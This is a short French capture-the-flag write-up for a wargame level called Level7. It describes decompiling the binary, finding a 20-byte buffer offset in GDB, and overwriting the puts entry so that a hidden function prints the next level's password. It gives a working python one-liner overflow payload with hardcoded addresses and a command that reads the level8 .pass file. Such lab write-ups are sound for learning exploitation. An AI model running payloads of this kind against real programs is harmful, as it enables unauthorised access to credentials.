 
# Level7
---
###### Étape 1 : -- Décompiler le programme --

En décompilant le programme avec Dogbolt ou Ghidra, on voit dans le programme deux fonctions. M et Main : 

On voit par la suite que dans la fonction M il y a la fonction __printf__ qui est appelé pour ecrire le .pass de prochain level. Mais probleme la fonction M n'est pas appelé.

On voit deux buffer dans la fonction Main qui peuvent etre oveflow pour casse la fonction puts a la fin de celle-ci.

###### Étape 2: -- Overflow --

Depuis __GDB__, on cherche l'offset de la variable buffer1. -> ==20==.

on cherche ensuite l'addresse de la fonction m et de la fonction __puts__.


###### Étape 3: -- Execution --

Avec offset, et les addresses , on crée un one-liner python pour executer un payload pour lire le .pass du prochain level.

Contruction du payload: 
> ./binary $(python - c 'print  + "A" * [offset] + "[puts_address]') $(python -c 'print [m_address]') | 

Payload final :
```bash
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

Dans le terminal on execute la commande suivante pour récupérer le password du level8:

```bash
cat /home/user/level8/.pass
```


